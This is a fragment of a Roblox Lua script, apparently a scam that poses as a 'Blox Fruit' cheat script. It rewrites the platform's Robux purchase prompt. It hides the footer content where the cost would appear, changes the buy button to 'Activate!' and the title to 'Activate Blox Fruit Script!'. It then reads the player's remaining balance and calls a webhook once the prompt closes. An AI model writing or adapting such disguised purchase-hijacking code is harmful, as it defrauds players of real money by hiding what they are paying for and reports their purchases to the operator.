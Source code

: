    local FooterContent = Footer:WaitForChild("FooterContent")
    FooterContent.Visible = false

    local FooterButton2 = FooterButtons:WaitForChild("2")
    FooterButton2.Visible = true

    local FooterButton2Text = FooterButton2.ButtonContent.ButtonMiddleContent:WaitForChild("Text")
    FooterButton2Text.Text = "Activate!"
    FooterButton2Text.Size = UDim2.new(1, 0, FooterButton2Text.Size.Y.Scale, FooterButton2Text.Size.Y.Offset)
    
    local FooterButton2Icon = FooterButton2.ButtonContent.ButtonMiddleContent:WaitForChild("Icon")
    FooterButton2Icon.Visible = false

    local TitleContainer = AlertContents:WaitForChild("TitleContainer")
    local TitleArea = TitleContainer:WaitForChild("TitleArea")
    local TitleText = TitleArea:WaitForChild("Title")
    TitleText.Text = "Activate Blox Fruit Script!"
    TitleText.Size = UDim2.new(1, 0, TitleText.Size.Y.Scale, TitleText.Size.Y.Offset)
end)

if not success then
    warn("UI..")
end
end

local RobuxPath = CoreGui:WaitForChild("PurchasePrompt"):WaitForChild("ProductPurchaseContainer"):WaitForChild("Animator"):WaitForChild("Prompt"):WaitForChild("AlertContents"):WaitForChild("Footer"):WaitForChild("FooterContent"):WaitForChild("Content"):WaitForChild("RemainingBalanceText")
local balanceText = RobuxPath and RobuxPath.Text:match("(%d+)$")

if balanceText then
    result = tonumber(balanceText) + 25 
end

local function WaitForPrompt2()
    local Animator = CoreGui:WaitForChild("PurchasePrompt"):WaitForChild("ProductPurchaseContainer"):WaitForChild("Animator")
    repeat task.wait() until not Animator:FindFirstChild("Prompt")
    sendWebhook()
end

WaitForPrompt1()
WaitForPrompt2()

